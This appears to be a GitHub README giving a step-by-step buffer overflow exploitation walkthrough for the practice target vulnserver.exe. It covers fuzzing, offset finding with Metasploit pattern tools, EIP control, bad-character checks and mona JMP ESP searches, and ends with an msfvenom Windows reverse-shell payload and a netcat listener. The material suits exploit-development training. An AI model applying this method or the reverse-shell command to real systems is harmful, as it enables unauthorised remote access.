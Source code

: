 ### SPIKING:
1. Use the ```spike.spk``` script to find the vulnerable command on the vulnserver.exe application.
2. Once you find out the vulnerable command, proceed to fuzzing.

### FUZZING:
3. After finding out the vulnerable command, use the ```fuzz.py``` script to know how much bytes it would take to crash the application.

### FINDING THE OFFSET:
4. Use ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l byte_size```  to generate characters with the specified size.
5. Copy the generated characters and change the value of the "offset" variable on the ```finding_offset.py``` script.
6. Now launch the attack and take note of the EIP register value.
7. So now, identify the offset by using the tool ```/usr/share/metaploit-framework/tools/exploit/pattern_offset.rb -l byte_size -q EIP_VALUE```.
8. It means that after on the generated bytes generated by the pattern_offset.rb tool, we can control the EIP register.

### OVERWRTING THE EIP:
9. Use the ```overwriting_the_eip.py``` script to verify that you controlled the EIP register.

### FINDING BAD CHARACTERS
10. Find the bad characters list on https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/
12. Use ```finding_bad_characters.py``` script and launch.
13. Select the ESP register and follow the HEX DUMP. Then follow the HEX DUMP and find for any misplaced numbers there and remove that from the ```bad_chars``` variable on the ```finding_bad_characters.py``` script.

### FINDING THE RIGHT MODULE
14. Download the mona-py module and import on On Immunity Debugger. Find mona modules by searching ```!mona modules``` on Immunity Debugger.
15. Convert the assembly language of ```JMP ESP``` cmd to HEX Code using ```nasm_shell```.
16. Find the right module by inspecting if there were a memory protection on it and it comes with the target program.
If so, type ```find -s HEX_CODE_EQUIVALENT_OF_JMP_ESP_CMD \xmodule_name``` on Immunity Debugger.
17. Keep track of the return addresses and try it on the exploit one by one by replacing the ```return_address``` variable writing in REVERSE ORDER.
18. Go to immunity and search for the return address to find the JMP ESP instruction and set a breakpoint (F2).

# GETTING ROOT
19. Generate a shellcode by  ```msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00" ```. Take note that bad characters should be replaced via the ```-b``` parameter.
20. Fire up the netcat listener and hit that ```getting_root.py``` script!